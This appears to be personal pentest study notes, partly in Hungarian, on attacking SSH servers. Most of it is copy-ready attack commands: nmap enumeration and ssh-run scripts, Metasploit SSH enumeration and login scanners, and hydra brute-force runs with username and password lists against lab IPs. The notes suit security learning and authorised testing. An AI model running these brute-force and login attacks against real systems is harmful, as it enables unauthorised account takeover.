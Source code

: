 # SSH
## info
* authentication methods
  * username + password
  * key based
* the tipical attack is
  * bruteforcing credentials, (or searching private key files in the victims home directory or in other places)
  * exploiting vulnerable ssh version
## OpenSSH serulekenysegek
* kifejezetten keves van beloluk
* erdemes lecsekkolni mindig az adott verziot de ha nem lesz ra semmi serulekenyseg akkor azon ne lepeodjunk meg!
## login with ssh
ssh 192.202.224.3  
ssh username@192.202.224.3  
## nmap scripts
nmap -Pn -v 192.202.224.3 --script=ssh-auth-methods  
nmap -Pn -v 192.202.224.3 --script=ssh-auth-methods --script-args=ssh.user=admin  
nmap -Pn -v 192.202.224.3 --script=ssh2-enum-algos  
nmap -Pn -v 192.202.224.3 --script=ssh-hostkey  
nmap -Pn -v 192.202.224.3 --script=ssh-run --script-args="ssh-run.cmd=pwd,ssh-run.username=admin,ssh-run.password=Pass123"  
## metasploit
auxiliary/scanner/ssh/ssh_enumusers  
auxiliary/scanner/ssh/ssh_login  
auxiliary/scanner/ssh/ssh_version  
## bruteforcing username and password
nmap -Pn -v 192.202.224.3 --script=ssh-brute --script-args=userdb=users.txt,passdb=passwords.txt  
hydra -l admin -p Pass123 ssh://192.38.1.3  
hydra -L user_list.txt -P pass_list.txt ssh://192.38.1.3  
hydra -L user_list.txt -P pass_list.txt ssh://192.38.1.3 -t 4  
metasploit> auxiliary/scanner/ssh/ssh_enumusers  
metasploit> auxiliary/scanner/ssh/ssh_login  
